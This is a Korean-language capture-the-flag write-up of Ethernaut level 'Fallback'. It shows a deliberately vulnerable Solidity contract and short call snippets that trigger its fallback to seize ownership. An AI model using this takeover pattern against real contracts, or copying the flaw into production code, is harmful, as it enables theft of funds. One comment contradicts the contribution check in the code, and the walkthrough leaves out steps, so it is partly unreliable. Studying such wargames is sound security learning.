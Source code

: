 +++
title = "0x01. Fallback"
description = "Ethernaut"
date = 2023-07-12
toc = true

[taxonomies]
categories = ["Ethernaut"]
tags = ["Solidity", "Ethereum"]

[extra]
math=true
+++

# 📄 코드 분석

```solidity
contract Fallback {
    using SafeMath for uint256;
    mapping(address => uint256) public contributions;
    address payable public owner;

    // 컨트랙트를 배포하는 순간, `owner` 는 `1000 eth`를 기여한 것으로 기록됨
    constructor() public {
        owner = payable(msg.sender); // Type issues must be payable address
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    // `0.001` ether 이상을 함께 보내면, `contribution` 에 해당 금액을 더해서 기록해둠
    // 만약 `owner` 보다 더 많은 금액을 기여했다면 새로운 owner 가 됨
    function contribute() public payable {
        require(msg.value < 0.001 ether, "msg.value must be < 0.001"); // Add message with require
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = payable(msg.sender); // Type issues must be payable address
        }
    }

    // `contribution` 을 조회하는 함수
    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    // 컨트랙트에 존재하는 `eth`를 출금하는 함수
    // 오직 `owner`만 호출할 수 있음
    function withdraw() public onlyOwner {
        owner.transfer(address(this).balance);
    }

    // `fallback` 함수
    fallback() external payable {
        // naming has switched to fallback
        require(
            msg.value > 0 && contributions[msg.sender] > 0,
            "tx must have value and msg.send must have made a contribution"
        ); // Add message with require
        owner = payable(msg.sender); // Type issues must be payable address
    }
}
```

---

# 💣 취약점
- `Fallback` 함수에서 `owner`를 변경하므로, `fallback`을 호출하기만 하면 문제를 풀 수 있음을 알 수 있습니다.
```solidity
    // `fallback` 함수
    fallback() external payable {
        // naming has switched to fallback
        require(
            msg.value > 0 && contributions[msg.sender] > 0,
            "tx must have value and msg.send must have made a contribution"
        ); // Add message with require

        // owner 변경
        owner = payable(msg.sender); // Type issues must be payable address
    }
```
- [Solidity Docs](https://docs.soliditylang.org/en/v0.8.20/contracts.html#fallback-function)에 따르면, `Fallback`함수는 아래의 경우 호출할 수 있습니다.
> - <txtred>존재하지 않는 function</txtred>을 호출하는 경우
> - <txtylw>*receive*</txtylw> 함수가 없을 때, `eth`를 보내는 트랜잭션을 받은 경우
> - `msg.data`에 값이 존재하는 경우

- 따라서, 아래와 같은 방법으로 `fallback`을 호출할 수 있습니다.

```solidity
// 1. 잘못된 function signature 로 fallback 함수를 호출
bytes memory payload = abi.encodeWithSignature(
    "wrong_signature(uint256)",
    payable(address(ethernautFallback)),
    10 wei
);
payable(address(ethernautFallback)).call{value: 1 wei}(payload);

// 2. `ether` 를 보내는 트랜잭션으로 fallback 함수를 호출
payable(address(ethernautFallback)).call{value: 1 wei}("");
```

---
